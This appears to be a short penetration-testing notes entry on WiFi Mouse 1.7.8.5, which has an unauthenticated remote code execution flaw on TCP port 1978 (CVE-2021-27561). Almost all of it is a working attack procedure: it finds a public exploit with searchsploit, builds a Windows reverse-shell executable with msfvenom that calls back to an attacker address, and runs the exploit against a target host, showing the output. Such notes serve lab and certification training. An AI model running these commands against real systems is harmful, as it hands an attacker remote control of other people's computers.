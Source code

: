# 1978 - WiFi Mouse

**WiFi Mouse** `1.7.8.5`, a Windows server component of a mobile app that lets users control their PC via smartphone (mouse, keyboard, etc.), is vulnerable to **unauthenticated remote code execution** over TCP port `1978` due to insecure command parsing — [CVE-2021-27561](https://nvd.nist.gov/vuln/detail/CVE-2021-27561).

{% code overflow="wrap" %}
```bash
# Search for PoC
$ searchsploit WiFi Mouse
...
WiFi Mouse 1.7.8.5 - Remote Code Execution(v2) | windows/remote/50972.py

# Generate the payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.154 LPORT=4444 -f exe -o 1978.exe

# Use the exploit
$ python3 50972.py hermes 192.168.45.154:8888 1978.exe
[+] 3..2..1..

[+] *Super fast hacker typing*
[+] Retrieving payload
[+] Done! Check Your Listener?
```
{% endcode %}
